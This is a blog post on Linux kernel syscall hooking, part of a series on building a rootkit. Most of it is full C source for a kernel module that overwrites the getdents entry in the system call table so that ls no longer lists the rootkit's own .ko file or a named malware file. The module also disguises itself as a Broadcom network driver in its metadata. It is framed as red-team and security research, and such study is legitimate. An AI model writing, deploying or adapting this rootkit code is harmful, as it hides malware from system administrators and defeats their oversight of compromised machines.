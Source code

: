 ```yaml
---
title: 'The Art of Syscall Hooking'
categories: ['Hacking', 'Rootkits', 'Post Exploitation', 'security research']
tags: [
    'Exploit Development',
    'hacking',
    'redteaming',
    'rootkits',
    'security research',
]
date: '2020-03-28'
type: 'post'
weight: 400
keywords: 'hacking rootkits'
---
```


How can we have our rootkit avoid detection from prying eyes? What kinds of things do we want to hide from?
 
This time we get into the meat and bones of our rootkit and  look at hooking system calls (sys calls) to help us remain hidden from the wandering eyes of system administrators. 

## Syscall Hooking

> Note there are other types of hooking, I.E inline hooking (most windows rootkits)

Hooking is not a new concept and forms a part of normal operation in the Linux kernel. The kind of hooking we will use involves two key concepts at its most basic level; pointers and the system call table. 

In order to make useful changes that help us with our objective, for example remaining cloaked from system programs (and those who execute them) we will need to alter these functions. One way we can do this is by hooking the system call table. 

The system call table from an abstracted view is a big list which acts as a directory to kernel functions/methods, for example reading data `sys_read`, we can think of it metaphorically, and archaically, as an address book. Under each ‘entry’ in the table we can find the address, in this case that address is a pointer to the location of a function in memory. If we ‘go’ to that address under the listing we will ‘execute’ the code that is stored there. The concept of hooking therefore is that instead of a program's read call going to the system call table and ‘looking up’ the location of the read function in memory and then executing it, it instead points to our modified function in memory and executes that instead. From here we can perform near arbitrary changes to the operation of that program and return our changes to the userland program that originally triggered the call. 

As a side note the userland program does not directly go to the system call table to execute these functions, it instead has the kernel perform these calls on its behalf. Therefore our rootkit must operate as part of the kernel to see these system calls and intercept them (hooking). The following diagram illustrates the concept.  

![hooking diagrammatically](https://i.imgur.com/OhmoJim.png)

## Modified `insert` syscall

What do our modified calls actually do? The answer to that really depends on the objective of the kit, but since we are developing one to cloak our malware and itself we will focus on that notion (which should be pretty common among the vast majority of rootkits). With this in mind we want our modified calls to essentially 'dis-include' our rootkit files and our malware files (since everything is a file in Linux this includes the module file etc) and then return to the normal function as if nothing has changed ...

Here is a small fragment that will hide a “named” kernel object file (our rootkit) and other named files of our choosing from the ls command and its variants: 

```C
//Neccessary header files
#include <linux/init.h> //macros
#include <linux/module.h> 
#include <linux/syscalls.h>
#include <linux/kallsyms.h> //Call system
#include <linux/slab.h>
#include <linux/kern_levels.h>
#include <linux/gfp.h>
#include <asm/unistd.h>
#include <asm/paravirt.h>
#include <linux/kernel.h> //Kernel 


//Assists with kernel taint warnings etc
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Broadcom");
MODULE_DESCRIPTION("NIC Device Driver");
MODULE_VERSION("1.0");


unsigned long **SYS_CALL_TABLE;

//Adaptation for 5.0.3.42 and lower (CR4 pinning and CR0 bypass)
void EnablePageWriting(unsigned long address){
	unsigned int level;
	pte_t *pte = lookup_address(address, &level);

	if(pte->pte &~ _PAGE_RW){
		pte->pte |= _PAGE_RW;
	}
}

void DisablePageWriting(unsigned long address){
	unsigned int level;

	pte_t *pte = lookup_address(address, &level);

	pte->pte = pte->pte &~ _PAGE_RW;

} 


struct linux_dirent {
	unsigned long	  d_ino;    /* Inode number */
	unsigned long	  d_off;	  /* Offset to next linux_dirent */
	unsigned short	d_reclen; // d_reclen is the way to tell the length of this entry
	char		      d_name[];   // the struct value is actually longer than this, and d_name is variable width.
}*dirp2 , *dirp3 , *retn;   // // dirp = directory pointer -> Utility pointers


// ------ MALWARE DROP & Verto file hides ------ //

/* Hardcoded malware package - Rename to something 
'common'
*/
char payload[]="malware_demo_file.py";


// ------- HIDE ROOTKIT DRIVER FILE -------- //
char ko_fl[]  = "verto.ko";

//Original getdents syscall from kernel files (aka kallsym {'call system'})
asmlinkage int ( *original_getdents ) (unsigned int fd, struct linux_dirent *dirp, unsigned int count); 

/*
    -- HOW THIS HIDE FUNCTION WORKS --

~> Hook the call for the read/open command
~> Point it to directory traversal code
    ~> Uses byte calculations to determine how many resources (represented by structures ) are in dir
~> Once it reaches the file to be hidden 
    ~> it 'skips' it and performs the byte arithmetic to continue normally
    ~> displaying everything else in the 
*/
  
asmlinkage int	HookGetDents(unsigned int fd, struct linux_dirent *dirp, unsigned int count){

  struct linux_dirent *retn, *dirp3; 
  int Records, RemainingBytes, length;

  Records = (*original_getdents) (fd, dirp, count);

  if (Records <= 0){
    return Records;
  }

  retn = (struct linux_dirent *) kmalloc(Records, GFP_KERNEL);
  //Copy struct from userspace to our memspace in kernel space
  copy_from_user(retn, dirp, Records);

  dirp3 = retn; //Holds directory pointer for current dir, used to iterate over
  RemainingBytes = Records;
  
    //While still stuff in the dir
  while(RemainingBytes > 0){
    length = dirp3->d_reclen; //len of record
    RemainingBytes -= dirp3->d_reclen; //Gives numerical representation of next struct
    
    //Debugging
    printk(KERN_INFO "RemainingBytes %d   \t File: %s " ,  RemainingBytes , dirp3->d_name );


    if((strcmp( (dirp3->d_name) , payload) == 0) || (strcmp( (dirp3->d_name) , ko_fl) == 0)){
        memcpy(dirp3, (char*)dirp3+dirp3->d_reclen, RemainingBytes);
        Records -= length; //  replaces dirp3->d_reclen;
    }

    //Shift pointer to next structure (file)
    dirp3 = (struct linux_dirent *) ((char *)dirp3 + dirp3->d_reclen);

  }
  // Copy the record back to the origional struct
  copy_to_user(dirp, retn, Records); //Return to user space (using copy_to_user macro)
  kfree(retn); //Free memory
  return Records;
}


// Set up hooks.
static int __init SetHooks(void) {
	// Gets Syscall Table **
 	SYS_CALL_TABLE = (unsigned long**)kallsyms_lookup_name("sys_call_table"); 

	printk(KERN_INFO "Hooks Will Be Set.\n");
	printk(KERN_INFO "System call table at %p\n", SYS_CALL_TABLE);

  // Opens the memory pages to be written
	EnablePageWriting((unsigned long )SYS_CALL_TABLE);

  // Replaces Pointer Of Syscall_open on our syscall.
	original_getdents = (void*)SYS_CALL_TABLE[__NR_getdents];
	SYS_CALL_TABLE[__NR_getdents] = (unsigned long*)HookGetDents;
	DisablePageWriting((unsigned long )SYS_CALL_TABLE);

	return 0;
}


static void __exit HookCleanUp(void) {

	// Clean up our Hooks
	EnablePageWriting((unsigned long )SYS_CALL_TABLE);
	SYS_CALL_TABLE[__NR_getdents] = (unsigned long*)original_getdents;
	DisablePageWriting((unsigned long )SYS_CALL_TABLE);
	printk(KERN_INFO "Hooks cleaned up");
}

module_init(SetHooks);
module_exit(HookCleanUp);

```